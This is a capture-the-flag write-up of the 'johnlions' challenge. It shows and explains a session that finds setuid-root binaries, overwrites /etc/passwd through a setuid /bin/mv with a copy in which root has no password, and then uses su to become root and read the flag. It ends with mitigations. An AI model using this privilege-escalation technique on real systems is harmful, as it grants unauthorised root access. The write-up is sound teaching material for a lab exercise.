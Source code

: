## johnlions ##

### tl;dr ###
The binary `/bin/mv` was set-uid `root`, which meant that you could overwrite
files used for authentication (such as `/etc/passwd` or `/etc/shadow`) and thus
escalate to root privileges.

### Session ###
The following is the logs from a session where the above exploit was used to
read the target file (`/flag`).

```bash
$ find / -type f -user root -perm -4000 -print
/bin/mv
/bin/login
/bin/mail
/bin/mkdir
/bin/newgrp
/bin/passwd
/bin/su
/bin/rmdir
/usr/lib/atrun
$ cat /etc/passwd
root:x:0:1::/:
[...snip...]
ctf::7:3::/:
$ cat - > /usr/ctf/passwd
root::0:1::/:
ctf::7:3::/:
$ /bin/mv /usr/ctf/passwd /etc/passwd
mv: /etc/passwd: 644 mode y
$ cat /etc/passwd
root::0:1::/:
ctf::7:3::/:
$ su
# cat /flag
9447{h4cking_like_its_1979}
#
```

### What just happened? ###
Here's a breakdown of the above key commands:

#### `find / -type f -user root -perm -4000 -print` ####

This command is used to find all set-uid binaries owned by `root`. cyphar then
went about reading through each one and seeing which binary (if any) was not
(on a standard system) set-uid `root`. The most likely candidates were
`/bin/mkdir`, `/bin/rmdir` and `/bin/mv`. However, on a classic UNIX system
(such as this challenge was being run on), the syscalls for creating
directories must be executed by `root` (auscompgeek actually knew this prior
to the CTF, go figure). Thus, `/bin/mv` would be our attack vector.

#### `cat - > /usr/ctf/passwd` ####

The user we were given access to had `rwx` rights to the directory `/usr/ctf/`.
Since the shell being run was the original Bourne shell (it didn't support
process substitution), in order to use `/bin/mv` to overwrite `/etc/passwd` we
would need to have a location where we could create and write to files.

The data written afterward is a modified `/etc/passwd` file, where `root`'s
password has been disabled (NOTE: the second field of the `root` line is blank,
which is interpreted by `su` as no password authentication required for the
given user).

#### `/bin/mv /usr/ctf/passwd /etc/passwd` ####

This is the exploit. Because `/bin/mv` is set-uid `root`, it can write to
`/etc/passwd` when executed by **any** user. Thus we can replace the system's
authentication files with our own, and log in as any user.

> **NOTE**: Due to the different file modes, you are asked to confirm the
> overwriting of `/etc/passwd`. You just need to provide `y` as the answer to
> continue the exploit (the full prompt doesn't appear in the above session).

#### `su` ####

Since we have overwritten `/etc/passwd`, you can log in as `root` with no
password (NOTE: the change of the prompt from `$` to `#` indicates that the
escalation to root was successful).

#### `cat /flag` ####

This just discloses the information inside the target file, revealing the flag
and completing the challenge.

### Notes ###

* Both cyphar and auscompgeek really hate `telnet` (no line editing and
  backspace doesn't work -- grrr)
* cyphar now appreciates just how much GNU has provided in terms of
  user-friendly tools and features.
* It was also possible to exploit `/usr/lib/atrun`, as
  [another team did](http://pastebin.com/raw.php?i=8jaPWTVT).

### Mitigations ###

In order to make this exploit not work, `/bin/mv` should either implement some
kind of primitive access control (like `su` or other proper set-uid `root`
programs), or have the set-uid mode bit disabled for the binary.
